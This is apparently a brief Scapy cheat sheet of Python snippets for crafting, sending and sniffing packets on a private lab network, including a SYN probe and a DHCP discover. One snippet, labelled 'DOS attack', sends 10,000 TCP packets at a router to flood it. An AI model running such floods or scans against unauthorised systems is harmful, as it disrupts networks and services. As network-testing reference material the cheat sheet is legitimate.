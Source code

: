 #### Create packets
Create packet with TTL
```python
x = IP(ttl=64)
```

Set source and destination IP
```python
x.src = "192.168.55.103"
x.dst = "192.168.55.254"
```

#### Send packets

Send an ICMP packet
```python
send(IP(src="192.168.55.103",dst="192.168.55.254")/ICMP()/"Hello world")
```

SYN scan router on port 80
```python
sr1(IP(dst="192.168.55.254")/TCP(dport=80,flags="S"))
```

DOS attack
```python
send(IP(src="192.168.55.103",dst="192.168.55.254")/TCP(sport=80, dport=80), count=10000)
```

look for DHCP server
```python
conf.checkIPaddr = False
fam,hw = get_if_raw_hwaddr(conf.iface)
frame = Ether(dst="ff:ff:ff:ff:ff:ff")
datagram = IP(src="0.0.0.0",dst="192.168.55.254")
segment = UDP(sport=68,dport=67)
message = BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
dhcp_discover = frame/datagram/segment/message
ans, unans = srp(dhcp_discover, multi=True)
print(ans.summary())
for p in ans:
	print(p[1][Ether].src)
	print(p[1][IP].src)
```
#### Sniff packets
```python
sniff(iface="en0", prn=lambda x:x.summary)
```



